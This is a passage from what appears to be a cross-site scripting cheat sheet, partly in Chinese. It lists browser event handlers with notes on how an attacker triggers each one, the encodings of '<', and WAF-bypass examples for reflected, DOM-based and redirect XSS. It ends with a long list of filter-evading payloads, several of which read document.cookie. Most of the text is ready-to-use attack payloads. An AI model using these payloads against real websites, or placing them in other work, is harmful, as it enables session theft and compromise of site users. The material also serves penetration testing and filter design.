74. `onPopState()` (fires when user navigated the session history)
75. `onProgress()` (attacker would use this as a flash movie was loading)
76. `onPropertyChange()` (user or attacker would need to change an element property)
77. `onReadyStateChange()` (user or attacker would need to change an element property)
78. `onRedo()` (user went forward in undo transaction history)
79. `onRepeat()` (the event fires once for each repetition of the timeline, excluding the first full cycle)
80. `onReset()` (user or attacker resets a form)
81. `onResize()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
82. `onResizeEnd()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
83. `onResizeStart()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
84. `onResume()` (the onresume event fires on every element that becomes active when the timeline resumes, including the body element)
85. `onReverse()` (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a data source)
87. `onRowExit()` (user or attacker would need to change a row in a data source)
88. `onRowDelete()` (user or attacker would need to delete a row in a data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a data source)
90. `onScroll()` (user would need to scroll, or attacker could use the `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element’s ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played  by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag,  processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element’s  segment time line and begins playing from that point. The segment  consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

#### Character Escape Sequences

> All the possible combinations of the character “<” in HTML and JavaScript. Most of these won’t render out of the box, but many of them can get rendered in certain circumstances as seen above.

    <
    %3C
    &lt
    &lt;
    &LT
    &LT;
    &#60
    &#060
    &#0060
    &#00060
    &#000060
    &#0000060
    &#60;
    &#060;
    &#0060;
    &#00060;
    &#000060;
    &#0000060;
    &#x3c
    &#x03c
    &#x003c
    &#x0003c
    &#x00003c
    &#x000003c
    &#x3c;
    &#x03c;
    &#x003c;
    &#x0003c;
    &#x00003c;
    &#x000003c;
    &#X3c
    &#X03c
    &#X003c
    &#X0003c
    &#X00003c
    &#X000003c
    &#X3c;
    &#X03c;
    &#X003c;
    &#X0003c;
    &#X00003c;
    &#X000003c;
    &#x3C
    &#x03C
    &#x003C
    &#x0003C
    &#x00003C
    &#x000003C
    &#x3C;
    &#x03C;
    &#x003C;
    &#x0003C;
    &#x00003C;
    &#x000003C;
    &#X3C
    &#X03C
    &#X003C
    &#X0003C
    &#X00003C
    &#X000003C
    &#X3C;
    &#X03C;
    &#X003C;
    &#X0003C;
    &#X00003C;
    &#X000003C;
    \x3c
    \x3C
    \u003c
    \u003C


**常用属性：**
  src
  action
  href
  data
  content 
  anytag

  **javascript弹窗函数：**
  alert()
  confirm()
  prompt() 
  write()
  setTimeout()





- ### WAF(⑧懂)

**Stored XSS**

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

**Reflected XSS in Javascript**

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

**DOM-based XSS**

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

**XSS via request Redirection**

- Vulnerable code:

```
...
header('Location: '.$_GET['param']);
...
```

As well as:

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

- This request will not pass through the WAF:

```
/?param=<javascript:alert(document.cookie>)
```

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

```
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

例：

> - `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
> - `<Video> <source onerror = "javascript: alert (XSS)">`
> - `<Input value = "XSS" type = text>`
> - `<applet code="javascript:confirm(document.cookie);">`
> - `<isindex x="javascript:" onmouseover="alert(XSS)">`
> - `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
> - `"><img src="x:x" onerror="alert(XSS)">`
> - `"><iframe src="javascript:alert(XSS)">`
> - `<object data="javascript:alert(XSS)">`
> - `<isindex type=image src=1 onerror=alert(XSS)>`
> - `<img src=x:alert(alt) onerror=eval(src) alt=0>`
> - `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
> - `<iframe/src="data:text/html,<svg onload=alert(1)>">`
> - `<meta content=" 1  ; JAVASCRIPT: alert(1)" http-equiv="refresh"/>`
> - `<svg><script xlink:href=data:,window.open('https://www.google.com/')></script`
> - `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
> - `<iframe src=javascript:alert(document.location)>`
> - `<form><a href="javascript:\u0061lert(1)">X`
> - `</script><img/*%00/src="worksinchrome:prompt(1)"/%00*/onerror='eval(src)'>`
> - `<style>//*{x:expression(alert(/xss/))}//<style></style>`
> - On Mouse Over
> - `<img src="/" =_=" title="onerror='prompt(1)'">`
> - `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe`
> - `<script x> alert(1) </script 1=2`
> - `<form><button formaction=javascript:alert(1)>CLICKME`
> - `<input/onmouseover="javaSCRIPT:confirm(1)"`
> - `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
> - `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `













